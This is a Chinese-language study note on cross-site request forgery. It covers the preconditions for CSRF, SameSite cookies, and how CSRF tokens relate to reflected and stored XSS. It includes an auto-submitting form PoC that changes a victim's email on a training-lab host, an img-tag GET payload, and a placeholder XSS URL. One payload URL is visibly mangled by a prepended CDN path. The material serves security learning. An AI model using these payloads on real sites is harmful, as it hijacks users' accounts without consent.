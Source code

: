 # CSRF 漏洞概述

条件：

- 存在敏感动作：
  - 存在实际价值（如转账、修改密码）。
  - 通过 HTTP 触发。

- 敏感动作仅依赖 Cookie 的会话管理（未使用 csrf token、验证码）。
- 请求参数可预测。
  - 攻击者可以构造请求所需参数，无需未知参数。

csrf 不受同源策略的影响，因为同源策略限制的是 js 的 ajax 或 fetch 的请求，而 csrf 通常使用表单或超链接进行攻击，不受同源策略限制。但当目标机器的 set-cookie 属性 same-site 设置为 strict 的话，表单提交或超链接访问都不会携带 cookie 了。

通常情况下，csrf 通过表单进行 POST 请求攻击，通过超链接进行 GET 请求攻击。

### payload 在攻击者服务器上的 csrf 场景

修改受害者邮箱地址。

```
<html>
  <!-- CSRF PoC - generated by Burp Suite Professional -->
  <body>
    <form action="https://0adc0069043741fd80d10dda00f70060.web-security-academy.net/my-account/change-email" method="POST">
      <input type="hidden" name="email" value="wiene&#64;attacked&#45;user&#46;net" />
      <input type="submit" value="Submit request" />
    </form>
    <script>
      history.pushState('', '', '/');
      document.forms[0].submit();
    </script>
  </body>
</html>
```

### payload 在第三方网站上的 csrf 场景

1. payload 部署在攻击者服务器上，同时将攻击者服务器作为超链接托管在评论区或其他地方。
2. payload 部署在第三方网站上，通常是 get 请求，如下：

```
<img src="https://cdn.jsdelivr.net/gh/LilDean17/secdoc@main/Web%20%E5%AE%89%E5%85%A8/CSRF%20%E8%B7%A8%E7%AB%99%E8%AF%B7%E6%B1%82%E4%BC%AA%E9%80%A0/https://vulnerable-website.com/email/change?email=pwned@evil-user.net">
```

### XSS 和 CSRF 区别

xss 允许攻击者在受害者用户的浏览器中执行任意 js 代码。

csrf 允许攻击者诱使受害者发送 HTTP 请求以执行他们不想执行的操作。

### CSRF Token 是否防止 XSS 

某些情况下可以，例如：

```
https://insecure-website.com/status?message=<script>/*+Bad+stuff+here...+*/</script>
```

假设网站添加了 CSRF 令牌：

```
https://insecure-website.com/status?csrf-token=CIwNZNlR4XbisJF39I8yWnWX9wX4WFoz&message=<script>/*+Bad+stuff+here...+*/</script>

# 用户需要进入页面才能受到 XSS 攻击，但是 CSRF 令牌错误，导致用户进不去页面，进而避免了攻击。
```

如果网站拒绝错误令牌的访问，那么它防止了 XSS 的攻击。

注：

- 如果网站其他位置存在可利用 XSS，那么它允许攻击者利用用户身份请求合法的 CSRF Token 访问此页面。

- CSRF Tocken 不能防止存储型 XSS，如果 CSRF 保护的页面存在存储型 XSS，XSS 可正常利用。
  - 这是因为用户先进入页面再触发的 XSS，用户进入页面的过程已经正常校验了 CSRF Tocken，以至于后续的 XSS 的利用。 

所以，CSRF Token 可以防止反射 XSS，但不能防止存储 XSS。